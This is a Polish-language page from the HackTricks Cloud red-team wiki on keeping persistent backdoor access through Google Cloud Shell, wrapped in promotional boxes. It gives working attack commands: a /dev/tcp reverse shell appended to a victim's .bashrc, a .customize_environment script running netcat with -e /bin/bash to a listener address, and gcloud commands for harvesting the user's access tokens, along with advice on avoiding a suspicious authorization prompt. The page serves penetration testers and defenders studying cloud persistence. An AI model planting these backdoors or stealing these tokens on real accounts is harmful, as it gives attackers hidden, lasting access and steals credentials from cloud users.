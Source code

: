 # GCP - Trwałość Cloud Shell

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* repozytoria github.

</details>

## Cloud Shell

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Trwały backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) zapewnia dostęp do wiersza poleceń do zasobów chmurowych bezpośrednio z przeglądarki, bez żadnych związanych z tym kosztów.

Możesz uzyskać dostęp do Google Cloud Shell z **konsoli internetowej** lub uruchamiając **`gcloud cloud-shell ssh`**.

Ta konsola ma kilka interesujących możliwości dla atakujących:

1. **Każdy użytkownik Google z dostępem do Google Cloud** ma dostęp do w pełni uwierzytelnionego egzemplarza Cloud Shell (Konta usług mogą mieć dostęp, nawet będąc właścicielami organizacji).
2. Wspomniany egzemplarz **zachowa swoje katalog domowy przez co najmniej 120 dni**, jeśli nie występuje żadna aktywność.
3. Nie ma **możliwości monitorowania działalności** tego egzemplarza przez organizację.

Oznacza to, że atakujący może umieścić backdoor w katalogu domowym użytkownika i dopóki użytkownik co najmniej co 120 dni połączy się z GC Shell, backdoor przetrwa, a atakujący otrzyma powłokę za każdym razem, gdy zostanie uruchomiony, po prostu wykonując:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

W folderze domowym znajduje się inny plik o nazwie **`.customize_environment`**, który, jeśli istnieje, będzie **wykonywany za każdym razem**, gdy użytkownik uzyskuje dostęp do **cloud shell** (tak jak w poprzedniej technice). Wstaw po prostu poprzednie tylne drzwi lub takie jak poniżej, aby utrzymać trwałość tak długo, jak użytkownik "często" korzysta z cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Ważne jest zauważenie, że **za pierwszym razem, gdy wykonuje się działanie wymagające uwierzytelnienia**, w przeglądarce użytkownika pojawia się okno autoryzacji. To okno musi zostać zaakceptowane, zanim polecenie zostanie wykonane. Jeśli pojawi się nieoczekiwane okno, może to wzbudzić podejrzenia i potencjalnie narazić używaną metodę trwałości na kompromitację.
{% endhint %}

To jest okno autoryzacji po wykonaniu polecenia `gcloud projects list` z cloud shell (jako atakujący) widziane w sesji użytkownika w przeglądarce:


<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Jednak jeśli użytkownik aktywnie korzystał z cloudshell, okno autoryzacji nie pojawi się i można **zbierać tokeny użytkownika za pomocą**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Jak jest nawiązywane połączenie SSH

W zasadzie używane są trzy wywołania API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (pozwala dodać klucz publiczny utworzony lokalnie)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (pozwala uruchomić instancję)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (podaje adres IP Google Cloud Shell)

Ale można znaleźć więcej informacji pod adresem [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Odwołania

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć **reklamę swojej firmy w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**The PEASS Family**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* repozytoria na GitHubie.

</details>
